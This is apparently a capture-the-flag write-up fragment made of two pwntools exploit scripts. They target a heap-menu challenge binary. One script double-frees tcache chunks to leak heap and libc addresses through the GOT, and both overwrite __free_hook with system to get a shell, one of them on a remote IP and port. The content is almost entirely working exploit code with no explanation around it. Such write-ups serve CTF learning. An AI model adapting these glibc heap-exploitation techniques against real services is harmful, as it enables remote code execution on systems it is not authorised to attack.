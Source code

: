 ```plain
		delete(2)
		delete(2)
		delete(3)
		add(0x18,p64(libc.sym['__free_hook']))
		add(0x18,p64(system_addr))
		delete(4)
		# success('libc_base:'+hex(libc_base))
		# gdb.attach(io)
		io.interactive()
	# except Exception as e:
	# 	io.close()
	# 	continue
	# else:
	# 	continue
```


```plain
#FMYY
from pwn import*
def new(size,content):
    p.sendlineafter('choice:','1')
    p.sendlineafter('house:',str(size))
    p.sendafter('your house:',content)
def show(index):
    p.sendlineafter('choice:','3')
    p.sendlineafter('index:',str(index))
def free(index):
    p.sendlineafter('choice:','4')
    p.sendlineafter('index:',str(index))
p = process('./main')
p = remote('183.129.189.60',10060)
elf =ELF('./main')
libc = ELF('./libc-2.27.so',checksec=False)
new(0x10,'FMYY') #0
new(0x10,'FMYY') #1
new(0x10,'FMYY') #2
new(0x10,'FMYY') #3
#---------
free(2)
free(0)
free(0)
show(0)
p.recvuntil('house:\n')
heap_base = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - 0x260
log.info('HEAP:\t'+ hex(heap_base))
new(0x10,p64(heap_base + 0x2A0))
new(0x20,'FMYY')
new(0x10,p64(elf.got['__libc_start_main']))
show(1)
p.recvuntil('house:\n')
libc_base = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - libc.sym['__libc_start_main']
log.info('LIBC:\t' + hex(libc_base))
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
#------------
free(3)
free(3)
new(0x10,p64(free_hook))
new(0x20,'/bin/sh\x00')
new(0x10,p64(system))
free(8)
p.interactive()
```